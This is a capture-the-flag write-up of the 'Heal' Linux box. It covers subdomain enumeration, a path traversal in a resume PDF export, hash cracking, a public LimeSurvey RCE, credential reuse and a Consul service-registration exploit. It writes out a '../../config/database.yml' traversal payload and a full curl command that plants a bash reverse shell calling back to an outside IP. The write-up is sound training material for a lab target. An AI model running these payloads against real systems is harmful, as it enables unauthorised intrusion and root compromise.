Heal

Heal was an intricate Linux box that combined web application vulnerabilities with service exploitation. Initial reconnaissance revealed only HTTP and SSH services, with the web application featuring a resume builder. Investigation uncovered multiple subdomains, including an API endpoint running Rails 7.1.4 and a survey platform.
The critical vulnerability began with a Local File Inclusion (LFI) in the resume PDF export functionality, allowing access to system files. By targeting the Rails database configuration, I extracted and cracked a password hash for user 'Ralph'. With these credentials, I accessed the LimeSurvey admin panel running version 6.6.4, which was vulnerable to a known RCE (CVE-2021-44967). Exploiting this vulnerability provided initial shell access as www-data.
Privilege escalation proceeded in stages, first discovering credentials in a config file that granted access to user 'Ron'. Further enumeration revealed an internal Consul service running on port 8500, which was vulnerable to an RCE exploit. Leveraging this vulnerability allowed for privilege escalation to root. This box demonstrated the importance of subdomain enumeration, recognizing file inclusion vulnerabilities, identifying software versions for potential exploits, and thorough post-exploitation reconnaissance to discover internal services.
User flag

Initial nmap scan reveals 2 ports. HTTP on 80 and SSH on 22.
I will begin by visiting the newly discovered website.
Uncovering an API subdomain

There is a login/register form on the website. Before doing anything, I will switch over to burpsuite to get a clear overview of the process.
I turned on intercept in burp proxy and clicked sign up.

An API subdomain has been revealed. I will check it right away.

It runs on Rails version 7.1.4. While not really useful right now, I'm sure this knowledge will come handy in the future.
LFI via resume export
After logging in as a new user, I was redirected to a resume builder page.

Clicking on the survey button takes me to a yet another subdomain.
http://take-survey.heal.htb/index.php/552933?lang=en
But I'll keep my attention on this page for a little longer.
At the bottom of the resume page, there is an Export as PDF button. After clicking it, a PDF file of the resume from the page is downloaded.

Taking a look at the process through burpsuite reveals something that could be of use.
While the first request looks not at all interesting, the other 2 are anything but that.

The filename parameter doesn't appear to be sanitized in any way, and is easily changeable from burp. The last request is nearly identical.

I will change the PDF file name to /etc/passwd within the intercepted GET request in order to confirm LFI.
After doing so, the PDF viewer fails to display the downloaded file.

But I can read it just fine from the terminal.

Leaking the database
Remembering that this is a rails app, I will try to repeat the LFI, this time targeting the default location of the rails database config file.
A brief search brings me the exact file I wish to target. I'll swap the PDF filename with '../../config/database.yml', adding '../' to go up a few directories.
It required a few tries, but eventually I managed to download the config file.

The config file reveals 2 databases. First I'll grab the development one, repeating the LFI once again.
I can open the ".pdf" file using sqlite3.

There is one interesting hash in the users table. Every other account aside from Ralph is most likely user made.
I'll take Ralph's hash and feed it into hashcat for some cracking.
hashcat -a 0 -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
After a short while, the hash cracked and Ralph's password was revealed.

Limesurvey RCE and shell as www-data
I tried to SSH into the box with these credentials, but it did not work. I remember that there was a survey link I haven't checked before, so I'll do that right now.
I was welcomed by a 1-question survey that didn't bring anything new. However, after deleting the index and the survey ID from the searchbar, I was shown something very intriguing.

Ralph, whose password I already have, is an administrator on this limesurvey instance. If there's an administrator, there should be an admin panel as well.

And there is! After adding /admin to the URL, I was redirected to the admin login page. I'll try Ralph's credentials here.

With admin access to the service, I can do a few things. However, I'll immediately note the limesurvey version that is visible in the bottom right corner.
LimeSurvey Community Edition Version 6.6.4
Whenever I find a version number like this, I always check for any CVE's its vulnerable for.
https://nvd.nist.gov/vuln/detail/CVE-2021-44967
I found a PoC rather quickly, and it seemed to be just the thing I needed.
https://github.com/N4s1rl1/Limesurvey-6.6.4-RCE.git
I'll clone the repo, make some necessary changes and use the PoC as it was shown.
After performing every step and setting up the shell, I get a callback.

Pivoting to Ron
I searched manually thought var/www/limesurvey for any kinds of config files and credentials.
Eventually, I found var/www/limesurvey/application/config/config.php, which had something interesting inside.

I'll take the password, aiming to test it against the two users who have /home directories on the box. Ron and Ralph.
While it failed for Ralph, it definitely worked for Ron.

With this, I can go ahead and grab the user flag.

Root flag
Initial recon
The same credentials worked for SSH, which was the first thing I checked to get out of the reverse shell.
I ran a few commands to gather some info, and found a few active ports.

I'll reconnect my SSH session to forward a bunch of those ports back to my machine.
RCE via Consul and root shell
After scanning through most of the ports, I found one that caught my interest.

Consul is running on port 8500. And once again, there is a version visible. So I'll do the same thing as with limesurvey.
https://www.exploit-db.com/exploits/51117
I found one rather quickly. This will allow me to construct a curl command for manual exploitation.
curl -X PUT -d '{"Address": "127.0.0.1", "check": {"Args": ["/bin/bash", "-c", "bash -i >& /dev/tcp/10.10.16.64/9001 0>&1"], "interval": "10s", "Timeout": "864000s"}, "ID": "gato", "Name": "mal", "Port": 9001}' http://127.0.0.1:8500/v1/agent/service/register
I started up a listener on port 9001, and sent the command.
After a few seconds, I got a callback.

Rooted!